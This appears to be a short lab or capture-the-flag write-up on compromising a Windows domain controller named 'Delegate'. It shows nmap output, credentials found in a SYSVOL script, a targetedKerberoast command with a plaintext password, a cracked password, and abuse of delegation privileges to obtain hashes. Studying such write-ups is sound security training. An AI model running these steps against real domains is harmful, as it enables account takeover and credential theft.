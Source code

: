 # Enumeration
Enumerating ports:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-07 05:40:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-07T05:40:56+00:00; -23h59m43s from scanner time.
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2024-04-06T05:35:55
|_Not valid after:  2024-10-06T05:35:55
| rdp-ntlm-info: 
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   DNS_Tree_Name: delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-07T05:40:14+00:00
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49665/tcp open  msrpc      Microsoft Windows RPC
49666/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49669/tcp open  msrpc      Microsoft Windows RPC
49672/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc      Microsoft Windows RPC
49685/tcp open  msrpc      Microsoft Windows RPC
49689/tcp open  msrpc      Microsoft Windows RPC
49692/tcp open  msrpc      Microsoft Windows RPC
63466/tcp open  msrpc      Microsoft Windows RPC

```
Checking SMB we have read access on SYSVOL share. 
A file called users.bat is present with credentials:
![](attachment/b78dfa3ea211f376420f54140feb9856.png)
Now using bloodhound we discover a path
Using targetedkerberoast.py:
```
targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123'
```
![](attachment/b4c041dee7fc2368652bdafb28cadef6.png)
Now using hashcat we crack the password:
`N.Thompson: KALEB_2341`
We have delegation privileges:
![](attachment/084b99753b0154c3e50e9b33e23f2b35.png)
Now using [[SeEnableDelegationPrivilege]] we can get the password hashes:
![](attachment/72c87545de7f6e2341944fe11729c748.png)